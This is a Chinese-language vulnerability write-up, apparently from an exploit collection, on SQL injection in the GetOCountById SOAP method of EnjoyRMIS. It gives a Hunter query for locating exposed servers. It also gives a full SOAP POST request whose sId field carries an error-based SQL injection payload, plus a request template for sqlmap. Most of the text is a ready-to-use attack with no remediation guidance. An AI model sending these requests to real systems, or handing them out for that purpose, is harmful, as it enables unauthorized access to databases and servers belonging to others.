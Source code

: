 # EnjoyRMIS GetOCountById存在SQL注入漏洞

# 一、漏洞简介
EnjoyRMIS GetOCountById存在SQL注入漏洞,攻击者可通过该漏洞获取数据库敏感信息甚至可控制服务器。

# 二、影响版本
+ EnjoyRMIS

# 三、资产测绘
+ hunter`web.body="CheckSilverlightInstalled"`
+ 特征

![1700576375104-73ed7b01-1186-48d1-a163-ef4068a88d89.png](./img/-3EM53KFP-oCpuOA/1700576375104-73ed7b01-1186-48d1-a163-ef4068a88d89-012616.png)

# 四、漏洞复现
```plain
POST /EnjoyRMIS_WS/WS/POS/cwsoa.asmx HTTP/1.1
Host: xx.xx.xx.xx
Content-Type: text/xml; charset=utf-8
Content-Length: length
SOAPAction: "http://tempuri.org/GetOCountById"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <GetOCountById xmlns="http://tempuri.org/">
      <sId>string' AND 8494 IN (SELECT (CHAR(113)+CHAR(107)+CHAR(113)+CHAR(106)+CHAR(113)+(SELECT (CASE WHEN (8494=8494) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(113)+CHAR(107)+CHAR(107)+CHAR(113))) AND 'PDAF'='PDAF</sId>
    </GetOCountById>
  </soap:Body>
</soap:Envelope>
```

![1700644829789-6c2f4976-77e4-48f8-8a32-d8c69fa73016.png](./img/-3EM53KFP-oCpuOA/1700644829789-6c2f4976-77e4-48f8-8a32-d8c69fa73016-290198.png)

sqlmap

```plain
POST /EnjoyRMIS_WS/WS/POS/cwsoa.asmx HTTP/1.1
Host: xx.xx.xx.xx
Content-Type: text/xml; charset=utf-8
Content-Length: length
SOAPAction: "http://tempuri.org/GetOCountById"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <GetOCountById xmlns="http://tempuri.org/">
      <sId>string</sId>
    </GetOCountById>
  </soap:Body>
</soap:Envelope>
```

![1700644943219-a87f98e3-c3f0-4d3a-95f2-5b6d4eae0dac.png](./img/-3EM53KFP-oCpuOA/1700644943219-a87f98e3-c3f0-4d3a-95f2-5b6d4eae0dac-124917.png)



> 更新: 2024-02-29 23:55:45  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/gogy2b6p3055hkci>